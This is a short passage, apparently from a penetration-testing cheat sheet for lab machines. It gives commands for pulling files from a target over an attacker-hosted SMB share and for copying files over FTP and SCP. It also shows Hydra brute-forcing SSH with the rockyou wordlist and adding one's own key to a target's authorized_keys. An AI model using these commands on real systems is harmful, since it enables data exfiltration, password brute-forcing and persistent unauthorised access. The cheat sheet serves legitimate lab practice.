 run on attacker machine

```bash
smbserver.py share . -smb2support
```

run on target machine

```bash
copy <filename> \\\\<IP>\\share\\
```

#### FTP

**connect to ftp via url**

```bash
<ftp://$user:$password@$domain> or $ip
example:
?u=ftp://user:heightofsecurity123!@forge.htb
```

**move to the ftp local directory from ftp**

```bash
lcd ftp
```

#### SSH

**Get a file from SSH server**

```bash
scp -P22  user@IP:filename .
```

**Send file via ssh**

```bash
scp $filename $user@$IP:.
```

**SCP a folder to your local machine**

```bash
scp -r $user@$IP:/var/www/html .
```

**Hydra username/password bruteforce**

```bash
hydra -l <username> -P /usr/share/wordlists/rockyou.txt ssh://$IP
```

```bash
hydra -l <username> -P <wordlist> $IP -t 4 ssh
```

**Tricks to connect to SSH**

grab your SSH key and add it to the `authorized_keys` file inside the .ssh folder in the target machine
